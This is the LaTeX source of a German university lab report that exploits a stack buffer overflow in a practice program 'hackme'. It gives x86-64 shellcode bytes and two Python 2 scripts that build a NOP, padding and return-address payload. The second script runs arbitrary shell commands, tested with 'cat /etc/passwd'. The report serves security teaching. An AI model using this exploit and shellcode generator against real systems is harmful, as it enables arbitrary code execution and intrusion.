    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z28.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z29.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z30.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z31.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z32.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z34.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z35.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z36.png}
\end{figure}
\newpage

\subsection{Teil C - Implementierung des Shellcodes}

\textit{Anmerkung: Der vorgegebene Assemblercode hat bei uns nicht zu einem Buffer-Overflow geführt. Wir haben deshalb in Zeile 35, vor "mov al,59" noch den Befehl "xor rax,rax" eingefügt. Daher weicht unser Shellcode inkl. der Shellcode Länge von der vorgegebenen Assembler Datei um drei Byte ab. Ab jetzt beziehen wir unsere Ausführungen auf den abgeänderten Shellcode.}\newline
\newline
Der abgeänderte Shellcode aus dem Praktikum 3 muss in der VM als Datei abgespeichert werden. Wir haben die Datei "shellcode.asm" genannt.
Um nun eine Verarbeitung auf verschiedene Arten zu ermöglichen, muss der Shellcode als Binärdatei vorliegen.\newline Durch folgenden Terminal Befehl kann die Binäre Datei erstellt werden: \newline
\textbf{nasm -f bin shellcode.asm -o shellcode.bin} \newline
\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/shellcode/create_bin.png}
\end{figure}
\newline
Nach Eingabe wird die Binärdatei mit dem Namen "shellcode.bin" erstellt.\\\\
Um den Inhalt der Datei zu prüfen, wird die dumpshellcode.py des Praktikum 3 \newline
benötigt. Wenn die Datei im gleichen Ordner liegt wie die .bin Datei, kann folgender \newline
Befehl über das Terminal ausgeführt werden: \newline
\textbf{./dumpshellcode.py shellcode.bin} \newline
\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm, height=3cm]{Praktikum 3/Bilder/shellcode/dumpshellcode.png}
\end{figure}

Wie aus dem Bild zu erkennen, ist die Länge des Shellcodes 68 Byte lang.

\newpage
\subsection{Teil D - Python Skript}
Damit der Shellcode über das Programm hackme ausgeführt werden kann, muss ein Padding als Parameter übergeben werden.\newline
Die Buffergröße beträgt 270 Bytes, davon werden 68 Byte für unseren Shellcode verwendet und 6 Byte für die Rücksprungadresse. Somit wird das Padding wie folgt berechnet:
\begin{itemize}
\item Padding = 270 - Länge Shellcode - Länge Adresse
\item = 270 - 68 - 6
\item = 196
\end{itemize}
Es sollte explizit erwähnt werden, das dass Skript auf die Länge des Buffers von 270 Byte beruht. \newline
\newline
Im Python Skript "\textbf{un1k0d3r-payload.py}"aus der Vorlesung ist ein "NOP slide" gesetzt => "\textbackslash x90". Dieser Hexadezimalwert ist ein sogenannter "no operation" Befehl. Durch diesen Befehl kann ein Takt lang "pausiert" bzw. übersprungen werden. Durch das überspringen kann von jeder Stelle des Speichers, zu seiner Anweisung (Instruction) gesprungen und ausgeführt werden. Man könnte sagen, man slided durch ein NOP zum Shellcode.
\newline
Jedoch wird durch setzten eines NOP ein weiteres Byte benötigt. Dadurch sind insgesamt nur noch 195 Bytes notwendig.\newline
\newline
In der ersten Zeile unseres Skriptes ist der "shebang" von Python 2 hinterlegt, da wir Python 2.7 verwenden. Ohne den shebang wäre das Skript nicht ausführbar. Die Zweite Zeile ist ebenfalls wegen Python 2 notwendig. Dadurch werden Zeichen des shellcodes (Z:13) richtig interpretiert. Falls die genannte Zeile nicht vorhanden wäre, würden die Zeichen des shellcodes wie z.B. "xc1" als ASCII-Zeichen anstatt als Bytes interpretiert werden. Im Anschluss würde eine Fehlermeldung ausgegeben werden.\newline
\newline
Da wir nun die korrekte Anzahl an Bytes kennen, kann der Wert im Skript Hardgecoded werden. Dadurch kann ein Übergabeparameter gespart werden, und es muss nur noch die Rücksprungadresse übergeben werden. \newline
Falls ein Parameter (eine Hexadezimale Rücksprungadresse) übergeben wird, wird dieser von Hexadezimal in Binär durch die Funktion decode() umgewandelt. \newline
Die Bytes die wir nun haben, müssen dem little Endian Format entsprechen. Dies kann in Python durch [::-1] erfolgen.
\newline
Falls kein Parameter übergeben wird, wird das Skript mit einer Fehlermeldung beendet. \newline
\newline
Wurde das Skript nicht beendet, wird in Zeile 13 der NOP, shellcode, der Buchstabe "A" mit der Anzahl des Paddings (195) multipliziert und die übergebene Rücksprungadresse ausgegeben.

\newpage
\begin{lstlisting}
#! /usr/bin/python2
# -*- coding: utf-8 -*-
import sys

if len(sys.argv)==2:
	address = sys.argv[1].decode("hex")
	address = address[::-1]

else:
	print "Rücksprungadresse übergeben!"
	sys.exit(1)

shellcode="\x48\x31\xc9\x51\x48\xb9\xff\x2f\x62\x69\x6e\x2f\x73" \
        + "\x68\x48\xc1\xe9\x08\x51\x54\x5f\x48\x31\xc9\x51\x66" \
        + "\x68\x2d\x63\x54\x5b\x48\x31\xc9\x51\xeb\x14\x5a\x52" \
        + "\x80\x72\x05\x41\x53\x57\x54\x5e\x48\x31\xd2\x48\x31" \
        + "\xc0\xb0\x3b\x0f\x05\xe8\xe7\xff\xff\xff\x6c\x73\x20" \
        + "\x2d\x6c\x41"
print("\x90" + shellcode + "A" * 195 + address)
\end{lstlisting}

Um die Rücksprungadresse herauszufinden, übergeben wir an unser Skript zunächst eine beliebige Adresse im hex-Format:

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/overflow/overflow1.png}
\end{figure}

Die richtige Rücksprungadresse (Anfang von Buffer) ist grün markiert. Damit rufen wir das Skript erneut auf und erzeugen so den gewünschten Buffer Overflow:

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/overflow/overflow2.png}
\end{figure}
Zusammenfassung: \newline
\newline
Durch das Padding füllen wir den Buffer komplett mit "A"'s. Da der strcpy Befehl die Größe des übergebenen Strings nicht prüft, werden nun unerlaubte Bereiche des Stacks überschrieben. Explizit wird der Instruction Pointer und der return Bereich des Stacks überschrieben. Anstatt nun ein "return 0" auszuführen, wird der Befehl "ls -lA" ausgeführt. \newline
\newpage

\section{Teil 2: Ausbau des Shellcodes}
\subsection{Teil A - Neues Python Skript}
Um ein beliebiges Linux Programm ausführen zu können, müssen die markierten Werte des bestehenden Shellcodes verändert werden:

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=10cm, height=10cm]{Praktikum 3/Bilder/shellcode/shellcode.png}
\end{figure}

Aktuell zeigt das [rdx+5] auf den fünften Byte von rdx (=> "A"), und 0x41 auf den Buchstaben "A". Diese müssen für beliebige Eingaben veränderbar sein. \newline
Damit andere Programme mit den dazugehörigen Parametern aufgerufen werden können, muss anstatt dem "ls -lA" ein String eingefügt werden. Falls der String ein korrekten Programmname enthält, würde dieser aufgerufen werden mit den mitgegebenen Parametern (falls vorhanden). \newline

Berechnet man die zwei Bereiche in Hexadezimalwerte um, erhält man folgende Werte: \newline
\newline
"ls -lA" => \textbf{6c73202d6c41}. \newline
\newline
"5" => \textbf{0x5}. \newline
\newpage

Schauen wir uns nun unseren Shellcode genauer an:

\begin{lstlisting}
shellcode="\x48\x31\xc9\x51\x48\xb9\xff\x2f\x62\x69\x6e\x2f\x73" \
        + "\x68\x48\xc1\xe9\x08\x51\x54\x5f\x48\x31\xc9\x51\x66" \
        + "\x68\x2d\x63\x54\x5b\x48\x31\xc9\x51\xeb\x14\x5a\x52" \
        + "\x80\x72\<@\textcolor{red}{x05}@>\x41\x53\x57\x54\x5e\x48\x31\xd2\x48\x31" \
        + "\xc0\xb0\x3b\x0f\x05\xe8\xe7\xff\xff\xff\<@\textcolor{red}{x6c}@>\<@\textcolor{red}{x73}@>\<@\textcolor{red}{x20}@>" \
        + "\<@\textcolor{red}{x2d}@>\<@\textcolor{red}{x6c}@>\<@\textcolor{red}{x41}@>"
\end{lstlisting}
Die Rot markierten Hexadezimalzahlen entsprechen genau unseren Werten, die wir variabel halten wollen. \newline

Das neue Skript: \newline

\begin{lstlisting}
#! /usr/bin/python2
# -*- coding: utf-8 -*-
import sys

if len(sys.argv) == 3:
    adresse = sys.argv[1].decode("hex")
    adresse = adresse[::-1]

    befehl = sys.argv[2]

else:
    print("Parameter: Rücksprungadresse + Befehl")
    sys.exit(1)

<@\textcolor{red}{shellcodeTeil1}@> ="\x48\x31\xc9\x51\x48\xb9\xff\x2f\x62\x69\x6e" \
        + "\x2f\x73\x68\x48\xc1\xe9\x08\x51\x54\x5f\x48\x31\xc9" \
        + "\x51\x66\x68\x2d\x63\x54\x5b\x48\x31\xc9\x51\xeb\x14" \
        + "\x5a\x52\x80\x72"
<@\textcolor{red}{shellcodeTeil2}@> = "\x41\x53\x57\x54\x5e\x48\x31\xd2\x48\x31" \
        + "\xc0\xb0\x3b\x0f\x05\xe8\xe7\xff\xff\xff"

<@\textcolor{green}{rdxWert}@> = chr(len(befehl))
<@\textcolor{green}{befehlLaenge}@> = len(befehl)

<@\textcolor{orange}{print}@>("\x90" + shellcodeTeil1 + rdxWert + shellcodeTeil2 + befehl
      + "A" * (201 - befehlLaenge) + adresse)
\end{lstlisting}
\newpage
Unser bestehendes Skript wurde grob an drei Teilen (rot, grün, orange) abgeändert:
\begin{itemize}
    \item rot: Der Shellcode wurde in zwei Teile zerlegt, um dynamisch die Länge des übergebenen Befehls einzufügen. Außerdem wurde "ls -lA" am Ende abgeschnitten, da wir ja einen neuen Befehl ausführen möchten. 
    \item grün: rdxWert speichert die Länge des Befehls als Charakter. befehlLaenge speichert die Länge des übergebenen Befehl-Strings, da wir diese vom Padding abziehen müssen.
    \item orange: Die Print Ausgabe des Skripts wurde entsprechend abgeändert:
    \begin{itemize}
        \item Als erstes wird eine NOP-Instruction ausgegeben.
        \item Jetzt kommt der erste Teil des Shellcodes (shellcode1).
        \item rdxWert beinhaltet die Position des Bytes direkt hinter dem eingefügten Befehl (also der erste Wert von shellcode2 -> \textbackslash x42), das dann zu einem Null-Byte verxort wird.
        \item Anschließend der zweite Teil des Shellcodes.
        \item Ans Ende des Shellcodes wird der neue Befehl angehängt.
        \item Jetzt folgt das Auffüllen mit "A"s. In unserem vorherigen Skript (siehe Aufgabe 1d)) haben wir 195 "A"s übergeben. Da wir aus dem Shellcode nun 6 Byte entfernt haben, müssen wir 201 "A"s übergeben. Von diesem Wert muss noch die Länge des neuen Befehls abgezogen werden, da dieser Wert genau der Anzahl an Bytes entspricht, die dadurch dem Shellcode hinzugefügt wurden.
        \item Als letzten Parameter übergeben wir die Rücksprungadresse, also den Anfang des Buffers.\newline
    \end{itemize}
\end{itemize}



\newpage

\subsection{Teil B - Testen des Skriptes}

Abschließend haben wir das Skript mit den drei vorgegebenen Befehlen ausgeführt. Die Ausgabe wurde aufgrund der Länge bei den entsprechenden Befehlen gekürzt.

\begin{itemize}
\item ls -a -t /usr/bin\newline
\newline
Dieser Befehl listet alle Dateien (-a) im Ordner /usr/bin nach Änderungsdatum sortiert (-t) auf:
\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/2b/2b1.png}
\end{figure}

\item ps ax\newline
\newline
Dieser Befehl zeigt alle aktuell laufenden Prozesse mit Zusatzinformationen (ProzessID etc.) an:
\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/2b/2b2.png}
\end{figure}

\item cat /etc/passwd \newline
\newline
Dieser Befehl gibt den Inhalt der Datei /etc/passwd zeilenweise auf der Konsole aus:
\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/2b/2b3.png}
\end{figure}

\end{itemize}



\end{document}

%%% Local Variables: 
%%% TeX-PDF-mode: t
%%% TeX-master: t
%%% coding: utf-8
%%% mode: latex
%%% TeX-engine: xetex
%%% End: